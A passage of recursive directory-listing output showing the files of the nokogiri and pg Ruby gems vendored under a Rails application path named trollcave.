-rw-r--r-- 1 rails rails  13K Sep 16  2016 xml_node_set.c
-rw-r--r-- 1 rails rails  345 Sep 16  2016 xml_node_set.h
-rw-rw-r-- 1 rails rails  56K Sep 16  2016 xml_node_set.o
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 xml_processing_instruction.c
-rw-r--r-- 1 rails rails  208 Sep 16  2016 xml_processing_instruction.h
-rw-rw-r-- 1 rails rails  22K Sep 16  2016 xml_processing_instruction.o
-rw-r--r-- 1 rails rails  15K Sep 16  2016 xml_reader.c
-rw-r--r-- 1 rails rails  146 Sep 16  2016 xml_reader.h
-rw-rw-r-- 1 rails rails  75K Sep 16  2016 xml_reader.o
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 xml_relax_ng.c
-rw-r--r-- 1 rails rails  152 Sep 16  2016 xml_relax_ng.h
-rw-rw-r-- 1 rails rails  32K Sep 16  2016 xml_relax_ng.o
-rw-r--r-- 1 rails rails 8.3K Sep 16  2016 xml_sax_parser.c
-rw-r--r-- 1 rails rails 5.7K Sep 16  2016 xml_sax_parser_context.c
-rw-r--r-- 1 rails rails  192 Sep 16  2016 xml_sax_parser_context.h
-rw-rw-r-- 1 rails rails  56K Sep 16  2016 xml_sax_parser_context.o
-rw-r--r-- 1 rails rails  841 Sep 16  2016 xml_sax_parser.h
-rw-rw-r-- 1 rails rails  73K Sep 16  2016 xml_sax_parser.o
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 xml_sax_push_parser.c
-rw-r--r-- 1 rails rails  180 Sep 16  2016 xml_sax_push_parser.h
-rw-rw-r-- 1 rails rails  49K Sep 16  2016 xml_sax_push_parser.o
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 xml_schema.c
-rw-r--r-- 1 rails rails  145 Sep 16  2016 xml_schema.h
-rw-rw-r-- 1 rails rails  35K Sep 16  2016 xml_schema.o
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 xml_syntax_error.c
-rw-r--r-- 1 rails rails  420 Sep 16  2016 xml_syntax_error.h
-rw-rw-r-- 1 rails rails  24K Sep 16  2016 xml_syntax_error.o
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 xml_text.c
-rw-r--r-- 1 rails rails  138 Sep 16  2016 xml_text.h
-rw-rw-r-- 1 rails rails  22K Sep 16  2016 xml_text.o
-rw-r--r-- 1 rails rails 7.9K Sep 16  2016 xml_xpath_context.c
-rw-r--r-- 1 rails rails  311 Sep 16  2016 xml_xpath_context.h
-rw-rw-r-- 1 rails rails  56K Sep 16  2016 xml_xpath_context.o
-rw-r--r-- 1 rails rails 7.3K Sep 16  2016 xslt_stylesheet.c
-rw-r--r-- 1 rails rails  292 Sep 16  2016 xslt_stylesheet.h
-rw-rw-r-- 1 rails rails  69K Sep 16  2016 xslt_stylesheet.o

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib:
total 24K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 nokogiri
-rw-r--r-- 1 rails rails 4.2K Sep 16  2016 nokogiri.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 xsd

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri:
total 2.9M
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 css
-rw-r--r-- 1 rails rails  569 Sep 16  2016 css.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 decorators
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 html
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 html.rb
-rwxr-xr-x 1 rails rails 2.8M Sep 16  2016 nokogiri.so
-rw-r--r-- 1 rails rails   64 Sep 16  2016 syntax_error.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 version.rb
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 xml
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 xml.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 xslt
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 xslt.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/css:
total 64K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.4K Sep 16  2016 node.rb
-rw-r--r-- 1 rails rails 2.4K Sep 16  2016 parser_extras.rb
-rw-r--r-- 1 rails rails  18K Sep 16  2016 parser.rb
-rw-r--r-- 1 rails rails 7.1K Sep 16  2016 parser.y
-rw-r--r-- 1 rails rails  127 Sep 16  2016 syntax_error.rb
-rw-r--r-- 1 rails rails 3.9K Sep 16  2016 tokenizer.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 tokenizer.rex
-rw-r--r-- 1 rails rails 7.3K Sep 16  2016 xpath_visitor.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/decorators:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 slop.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/html:
total 68K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 builder.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 document_fragment.rb
-rw-r--r-- 1 rails rails  11K Sep 16  2016 document.rb
-rw-r--r-- 1 rails rails  26K Sep 16  2016 element_description_defaults.rb
-rw-r--r-- 1 rails rails  413 Sep 16  2016 element_description.rb
-rw-r--r-- 1 rails rails  259 Sep 16  2016 entity_lookup.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sax

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/html/sax:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  481 Sep 16  2016 parser_context.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 parser.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 push_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/xml:
total 192K
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  477 Sep 16  2016 attribute_decl.rb
-rw-r--r-- 1 rails rails  244 Sep 16  2016 attr.rb
-rw-r--r-- 1 rails rails  13K Sep 16  2016 builder.rb
-rw-r--r-- 1 rails rails  185 Sep 16  2016 cdata.rb
-rw-r--r-- 1 rails rails  140 Sep 16  2016 character_data.rb
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 document_fragment.rb
-rw-r--r-- 1 rails rails 8.9K Sep 16  2016 document.rb
-rw-r--r-- 1 rails rails  678 Sep 16  2016 dtd.rb
-rw-r--r-- 1 rails rails  854 Sep 16  2016 element_content.rb
-rw-r--r-- 1 rails rails  321 Sep 16  2016 element_decl.rb
-rw-r--r-- 1 rails rails  473 Sep 16  2016 entity_decl.rb
-rw-r--r-- 1 rails rails  212 Sep 16  2016 namespace.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 node
-rw-r--r-- 1 rails rails  27K Sep 16  2016 node.rb
-rw-r--r-- 1 rails rails 8.1K Sep 16  2016 node_set.rb
-rw-r--r-- 1 rails rails  110 Sep 16  2016 notation.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 parse_options.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 pp
-rw-r--r-- 1 rails rails   72 Sep 16  2016 pp.rb
-rw-r--r-- 1 rails rails  141 Sep 16  2016 processing_instruction.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 reader.rb
-rw-r--r-- 1 rails rails  878 Sep 16  2016 relax_ng.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sax
-rw-r--r-- 1 rails rails  151 Sep 16  2016 sax.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 schema.rb
-rw-r--r-- 1 rails rails 7.7K Sep 16  2016 searchable.rb
-rw-r--r-- 1 rails rails  932 Sep 16  2016 syntax_error.rb
-rw-r--r-- 1 rails rails  172 Sep 16  2016 text.rb
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 xpath
-rw-r--r-- 1 rails rails  319 Sep 16  2016 xpath_context.rb
-rw-r--r-- 1 rails rails  200 Sep 16  2016 xpath.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/xml/node:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 save_options.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/xml/pp:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  411 Sep 16  2016 character_data.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 node.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/xml/sax:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 5.8K Sep 16  2016 document.rb
-rw-r--r-- 1 rails rails  464 Sep 16  2016 parser_context.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 parser.rb
-rw-r--r-- 1 rails rails 1.9K Sep 16  2016 push_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/xml/xpath:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  194 Sep 16  2016 syntax_error.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/nokogiri/xslt:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 7 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  799 Sep 16  2016 stylesheet.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/xsd:
total 12K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 xmlparser

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/lib/xsd/xmlparser:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 nokogiri.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/suppressions:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 nokogiri_ree-1.8.7.358.supp
-rw-r--r-- 1 rails rails    0 Sep 16  2016 nokogiri_ruby-1.8.7.370.supp
-rw-r--r-- 1 rails rails  515 Sep 16  2016 nokogiri_ruby-1.9.2.320.supp
-rw-r--r-- 1 rails rails  515 Sep 16  2016 nokogiri_ruby-1.9.3.327.supp
-rw-r--r-- 1 rails rails   87 Sep 16  2016 README.txt

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/tasks:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 test.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test:
total 96K
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 8 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 css
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 decorators
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 files
-rw-r--r-- 1 rails rails 5.2K Sep 16  2016 helper.rb
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 html
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 namespaces
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 test_convert_xpath.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_css_cache.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_encoding_handler.rb
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 test_memory_leak.rb
-rw-r--r-- 1 rails rails 3.7K Sep 16  2016 test_nokogiri.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 test_reader.rb
-rw-r--r-- 1 rails rails 1009 Sep 16  2016 test_soap4r_sax.rb
-rw-r--r-- 1 rails rails 7.9K Sep 16  2016 test_xslt_transforms.rb
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 xml
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 xslt

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/css:
total 44K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 7.3K Sep 16  2016 test_nthiness.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 test_parser.rb
-rw-r--r-- 1 rails rails 6.0K Sep 16  2016 test_tokenizer.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 test_xpath_visitor.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/decorators:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  607 Sep 16  2016 test_slop.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/files:
total 2.0M
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 4.3K Sep 16  2016 2ch.html
-rw-r--r-- 1 rails rails  277 Sep 16  2016 address_book.rlx
-rw-r--r-- 1 rails rails  192 Sep 16  2016 address_book.xml
-rw-r--r-- 1 rails rails  18K Sep 16  2016 atom.xml
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 bar
-rw-r--r-- 1 rails rails    0 Sep 16  2016 bogus.xml
-rw-r--r-- 1 rails rails  19K Sep 16  2016 dont_hurt_em_why.xml
-rw-r--r-- 1 rails rails 7.1K Sep 16  2016 encoding.html
-rw-r--r-- 1 rails rails 7.3K Sep 16  2016 encoding.xhtml
-rw-r--r-- 1 rails rails  125 Sep 16  2016 exslt.xml
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 exslt.xslt
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 foo
-rw-r--r-- 1 rails rails  156 Sep 16  2016 metacharset.html
-rw-r--r-- 1 rails rails 5.9K Sep 16  2016 noencoding.html
-rw-r--r-- 1 rails rails  931 Sep 16  2016 po.xml
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 po.xsd
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 saml
-rw-r--r-- 1 rails rails  225 Sep 16  2016 shift_jis.html
-rw-r--r-- 1 rails rails  149 Sep 16  2016 shift_jis_no_charset.html
-rw-r--r-- 1 rails rails  128 Sep 16  2016 shift_jis.xml
-rw-r--r-- 1 rails rails 1.8M Sep 16  2016 slow-xpath.xml
-rw-r--r-- 1 rails rails  117 Sep 16  2016 snuggles.xml
-rw-r--r-- 1 rails rails  418 Sep 16  2016 staff.dtd
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 staff.xml
-rw-r--r-- 1 rails rails  788 Sep 16  2016 staff.xslt
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 test_document_url
-rw-r--r-- 1 rails rails  69K Sep 16  2016 tlm.html
-rw-r--r-- 1 rails rails  109 Sep 16  2016 to_be_xincluded.xml
-rw-r--r-- 1 rails rails   47 Sep 16  2016 valid_bar.xml
-rw-r--r-- 1 rails rails  142 Sep 16  2016 xinclude.xml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/files/bar:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  141 Sep 16  2016 bar.xsd

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/files/foo:
total 12K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  162 Sep 16  2016 foo.xsd

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/files/saml:
total 60K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  13K Sep 16  2016 saml20assertion_schema.xsd
-rw-r--r-- 1 rails rails  14K Sep 16  2016 saml20protocol_schema.xsd
-rw-r--r-- 1 rails rails 5.1K Sep 16  2016 xenc_schema.xsd
-rw-r--r-- 1 rails rails  11K Sep 16  2016 xmldsig_schema.xsd

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/files/test_document_url:
total 20K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails   60 Sep 16  2016 bar.xml
-rw-r--r-- 1 rails rails   99 Sep 16  2016 document.dtd
-rw-r--r-- 1 rails rails  127 Sep 16  2016 document.xml

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/html:
total 80K
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sax
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 test_builder.rb
-rw-r--r-- 1 rails rails 5.0K Sep 16  2016 test_document_encoding.rb
-rw-r--r-- 1 rails rails  11K Sep 16  2016 test_document_fragment.rb
-rw-r--r-- 1 rails rails  18K Sep 16  2016 test_document.rb
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 test_element_description.rb
-rw-r--r-- 1 rails rails  340 Sep 16  2016 test_named_characters.rb
-rw-r--r-- 1 rails rails  711 Sep 16  2016 test_node_encoding.rb
-rw-r--r-- 1 rails rails 5.8K Sep 16  2016 test_node.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/html/sax:
total 24K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_parser_context.rb
-rw-r--r-- 1 rails rails 4.1K Sep 16  2016 test_parser.rb
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 test_push_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/namespaces:
total 36K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  367 Sep 16  2016 test_additional_namespaces_in_builder_doc.rb
-rw-r--r-- 1 rails rails  747 Sep 16  2016 test_namespaces_aliased_default.rb
-rw-r--r-- 1 rails rails 2.6K Sep 16  2016 test_namespaces_in_builder_doc.rb
-rw-r--r-- 1 rails rails  778 Sep 16  2016 test_namespaces_in_cloned_doc.rb
-rw-r--r-- 1 rails rails 2.9K Sep 16  2016 test_namespaces_in_created_doc.rb
-rw-r--r-- 1 rails rails 2.3K Sep 16  2016 test_namespaces_in_parsed_doc.rb
-rwxr-xr-x 1 rails rails 1.4K Sep 16  2016 test_namespaces_preservation.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/xml:
total 300K
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 node
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 sax
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 test_attribute_decl.rb
-rw-r--r-- 1 rails rails 2.0K Sep 16  2016 test_attr.rb
-rw-r--r-- 1 rails rails  10K Sep 16  2016 test_builder.rb
-rw-r--r-- 1 rails rails 5.5K Sep 16  2016 test_c14n.rb
-rw-r--r-- 1 rails rails 1.2K Sep 16  2016 test_cdata.rb
-rw-r--r-- 1 rails rails 1.1K Sep 16  2016 test_comment.rb
-rw-r--r-- 1 rails rails  644 Sep 16  2016 test_document_encoding.rb
-rw-r--r-- 1 rails rails 8.6K Sep 16  2016 test_document_fragment.rb
-rw-r--r-- 1 rails rails  29K Sep 16  2016 test_document.rb
-rw-r--r-- 1 rails rails  783 Sep 16  2016 test_dtd_encoding.rb
-rw-r--r-- 1 rails rails 5.6K Sep 16  2016 test_dtd.rb
-rw-r--r-- 1 rails rails 1.3K Sep 16  2016 test_element_content.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 test_element_decl.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 test_entity_decl.rb
-rw-r--r-- 1 rails rails 8.4K Sep 16  2016 test_entity_reference.rb
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 test_namespace.rb
-rw-r--r-- 1 rails rails 3.1K Sep 16  2016 test_node_attributes.rb
-rw-r--r-- 1 rails rails 3.2K Sep 16  2016 test_node_encoding.rb
-rw-r--r-- 1 rails rails  710 Sep 16  2016 test_node_inheritance.rb
-rw-r--r-- 1 rails rails  39K Sep 16  2016 test_node.rb
-rw-r--r-- 1 rails rails  16K Sep 16  2016 test_node_reparenting.rb
-rw-r--r-- 1 rails rails  25K Sep 16  2016 test_node_set.rb
-rw-r--r-- 1 rails rails 1.8K Sep 16  2016 test_parse_options.rb
-rw-r--r-- 1 rails rails  732 Sep 16  2016 test_processing_instruction.rb
-rw-r--r-- 1 rails rails 3.8K Sep 16  2016 test_reader_encoding.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 test_relax_ng.rb
-rw-r--r-- 1 rails rails 3.6K Sep 16  2016 test_schema.rb
-rw-r--r-- 1 rails rails  817 Sep 16  2016 test_syntax_error.rb
-rw-r--r-- 1 rails rails 1.7K Sep 16  2016 test_text.rb
-rw-r--r-- 1 rails rails  13K Sep 16  2016 test_unparented_node.rb
-rw-r--r-- 1 rails rails 2.7K Sep 16  2016 test_xinclude.rb
-rw-r--r-- 1 rails rails  15K Sep 16  2016 test_xpath.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/xml/node:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  799 Sep 16  2016 test_save_options.rb
-rw-r--r-- 1 rails rails 1.6K Sep 16  2016 test_subclass.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/xml/sax:
total 32K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 4 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 2.8K Sep 16  2016 test_parser_context.rb
-rw-r--r-- 1 rails rails  12K Sep 16  2016 test_parser.rb
-rw-r--r-- 1 rails rails 4.5K Sep 16  2016 test_push_parser.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/nokogiri-1.6.6.2/test/xslt:
total 16K
drwxrwxr-x 2 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 9 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails 3.4K Sep 16  2016 test_custom_functions.rb
-rw-r--r-- 1 rails rails  786 Sep 16  2016 test_exception_handling.rb

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3:
total 256K
drwxrwxr-x  6 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 50 rails rails 4.0K Sep 16  2016 ..
-rw-r--r--  1 rails rails 1.3K Sep 16  2016 BSDL
-rw-r--r--  1 rails rails 159K Sep 16  2016 ChangeLog
-rw-r--r--  1 rails rails 1.7K Sep 16  2016 Contributors.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 ext
-rw-r--r--  1 rails rails    0 Sep 16  2016 .gemtest
-rw-r--r--  1 rails rails  11K Sep 16  2016 History.rdoc
drwxrwxr-x  3 rails rails 4.0K Sep 16  2016 lib
-rw-r--r--  1 rails rails 2.5K Sep 16  2016 LICENSE
-rw-r--r--  1 rails rails 1.8K Sep 16  2016 Manifest.txt
-rw-r--r--  1 rails rails 1.2K Sep 16  2016 POSTGRES
-rw-r--r--  1 rails rails 5.8K Sep 16  2016 Rakefile
-rw-r--r--  1 rails rails 9.7K Sep 16  2016 Rakefile.cross
-rw-r--r--  1 rails rails  331 Sep 16  2016 README.ja.rdoc
-rw-r--r--  1 rails rails 2.9K Sep 16  2016 README-OS_X.rdoc
-rw-r--r--  1 rails rails 5.4K Sep 16  2016 README.rdoc
-rw-r--r--  1 rails rails 2.2K Sep 16  2016 README-Windows.rdoc
drwxrwxr-x  2 rails rails 4.0K Sep 16  2016 sample
drwxrwxr-x  4 rails rails 4.0K Sep 16  2016 spec

/var/www/trollcave/vendor/bundle/ruby/2.3.0/gems/pg-0.18.3/ext:
total 2.4M
drwxrwxr-x 3 rails rails 4.0K Sep 16  2016 .
drwxrwxr-x 6 rails rails 4.0K Sep 16  2016 ..
-rw-r--r-- 1 rails rails  27K Sep 16  2016 errorcodes.def
-rwxr-xr-x 1 rails rails 1.3K Sep 16  2016 errorcodes.rb
-rw-r--r-- 1 rails rails  30K Sep 16  2016 errorcodes.txt
-rw-rw-r-- 1 rails rails 1.1K Sep 16  2016 extconf.h
-rw-r--r-- 1 rails rails 3.3K Sep 16  2016 extconf.rb
-rw-r--r-- 1 rails rails  415 Sep 16  2016 gvl_wrappers.c
-rw-r--r-- 1 rails rails 9.1K Sep 16  2016 gvl_wrappers.h
-rw-rw-r-- 1 rails rails  56K Sep 16  2016 gvl_wrappers.o
-rw-rw-r-- 1 rails rails 8.5K Sep 16  2016 Makefile
-rw-r--r-- 1 rails rails 5.1K Sep 16  2016 pg_binary_decoder.c
-rw-rw-r-- 1 rails rails  28K Sep 16  2016 pg_binary_decoder.o
-rw-r--r-- 1 rails rails 4.6K Sep 16  2016 pg_binary_encoder.c
-rw-rw-r-- 1 rails rails  29K Sep 16  2016 pg_binary_encoder.o
-rw-r--r-- 1 rails rails  25K Sep 16  2016 pg.c
-rw-r--r-- 1 rails rails  13K Sep 16  2016 pg_coder.c
-rw-rw-r-- 1 rails rails  53K Sep 16  2016 pg_coder.o
-rw-r--r-- 1 rails rails 109K Sep 16  2016 pg_connection.c
-rw-rw-r-- 1 rails rails 367K Sep 16  2016 pg_connection.o
-rw-r--r-- 1 rails rails  16K Sep 16  2016 pg_copy_coder.c
-rw-rw-r-- 1 rails rails  47K Sep 16  2016 pg_copy_coder.o
-rw-r--r-- 1 rails rails 2.5K Sep 16  2016 pg_errors.c
-rw-rw-r-- 1 rails rails 154K Sep 16  2016 pg_errors.o
-rwxrwxr-x 1 rails rails 617K Sep 16  2016 pg_ext.so
-rw-r--r-- 1 rails rails  13K Sep 16  2016 pg.h
-rw-rw-r-- 1 rails rails  52K Sep 16  2016 pg.o
-rw-r--r-- 1 rails rails  33K Sep 16  2016 pg_result.c
-rw-rw-r-- 1 rails rails 149K Sep 16  2016 pg_result.o
-rw-r--r-- 1 rails rails  12K Sep 16  2016 pg_text_decoder.c
-rw-rw-r-- 1 rails rails  40K Sep 16  2016 pg_text_decoder.o
-rw-r--r-- 1 rails rails  19K Sep 16  2016 pg_text_encoder.c
-rw-rw-r-- 1 rails rails  62K Sep 16  2016 pg_text_encoder.o
-rw-r--r-- 1 rails rails 3.0K Sep 16  2016 pg_type_map_all_strings.c
-rw-rw-r-- 1 rails rails  25K Sep 16  2016 pg_type_map_all_strings.o
